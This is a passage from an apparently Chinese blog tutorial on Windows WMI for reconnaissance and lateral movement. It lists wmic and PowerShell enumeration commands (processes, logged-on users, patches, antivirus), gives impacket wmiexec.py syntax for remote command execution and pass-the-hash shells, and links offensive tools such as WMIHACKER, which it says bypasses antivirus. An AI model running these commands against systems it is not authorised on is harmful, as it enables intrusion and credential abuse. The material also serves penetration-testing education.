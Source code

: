 11、安装软件
wmic product get name,version
wmic product list brief

12、使用Powershell操作wmi
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_Share    #共享
Get-WmiObject -Namespace ROOT\CIMV2 -Class CIM_DataFile   #⽂件/⽬录列表
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_Volume   #磁盘卷列表
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_Process  #当前进程
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_Service  #列举服务
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_NtLogEvent           #⽇志
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_LoggedOnUser         #登陆账户
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_QuickFixEngineering  #补丁
Get-WmiObject -Namespace root\SecurityCenter2 -Class AntiVirusProduct #杀毒软件

13、操作系统相关信息
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_OperatingSystem
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_ComputerSystem
Get-WmiObject -Namespace ROOT\CIMV2 -Class Win32_BIOS

14、注册表操作
Get-WmiObject -Namespace ROOT\DEFAULT -Class StdRegProv
Push-Location HKLM:SOFTWARE\Microsoft\Windows\CurrentVersion\Run
Get-ItemProperty OptionalComponents</code></pre>
<hr/>
<h4>6）相关工具：</h4>
wmiexec.py：
[impacket/wmiexec.py at master · fortra/impacket (github.com)<img alt="icon-default.png?t=N176" src="https://csdnimg.cn/release/blog_editor_html/release2.2.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N176"/>https://github.com/fortra/impacket/blob/master/examples/wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py)
（impacket 工具包里）提供了通过 wmi 执行命令并回显的功能（445、135 和高位随机端口；445端口是SMB连接，完成执行命令的回显），未开放也支持无回显的方式进行命令执行
<pre><code>注：特殊字符用\转移，如@---&gt;\@
1、连接
python3 wmiexec.py  用户名:密码\@目标IP
python3 wmiexec.py  域名/用户名:密码\@目标IP

2、执行命令 
python3 wmiexec.py  域名/用户名:密码\@目标IP  "命令"

3、哈希传递获得shell
python3 wmiexec.py -hashes LM-Hash:NT-Hash 域名/用户名\@目标IP

4、获得shell后，执行命令
python3 wmiexec.py -hashes LM-Hash:NT-Hash 域名/用户名\@目标IP "命令"   </code></pre>
Windows操作系统中的密码一般由两部分组成，一部分为LM Hash，另一部分为NTLM Hash
即：username:RID:LM-HASH:NT-HASH
——————
wmicmd：
1、简述：一个仅使用WMI的小型实用程序：执行命令shell命令、从这些命令中捕获标准输出并写入注册表、读取然后从注册表中删除、打印到本地标准输出（需要.NET相应版本）
2、项目地址：
[nccgroup/WMIcmd: A command shell wrapper using only WMI for Microsoft Windows (github.com)<img alt="icon-default.png?t=N176" src="https://csdnimg.cn/release/blog_editor_html/release2.2.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N176"/>https://github.com/nccgroup/WMIcmd](https://github.com/nccgroup/WMIcmd)（使用方法项目地址里有）
——————
WMIHACKER：
1、简述：将执行结果写入到注册表（方法：使用事件触发器调用 VB 代码，达到命令执行效果）
2、区别：（都是写入注册表）wmiexe.py 和 wmicmd 是通过创建win32Process 进程执行命令<br/> 3、项目地址：
[rootclay/WMIHACKER: A Bypass Anti-virus Software Lateral Movement Command Execution Tool (github.com)<img alt="icon-default.png?t=N176" src="https://csdnimg.cn/release/blog_editor_html/release2.2.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N176"/>https://github.com/rootclay/WMIHACKER](https://github.com/rootclay/WMIHACKER)
——————
Ladon插件（集成）：
项目地址：
[Releases · k8gege/Ladon (github.com)<img alt="icon-default.png?t=N176" src="https://csdnimg.cn/release/blog_editor_html/release2.2.3/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N176"/>https://github.com/k8gege/Ladon/releases](https://github.com/k8gege/Ladon/releases)
功能如下：
<pre><code>1、网络资产收集
多协议探测存活主机
仅ICMP探测存活(快)
Oxid多网卡主机探测
多协议操作系统探测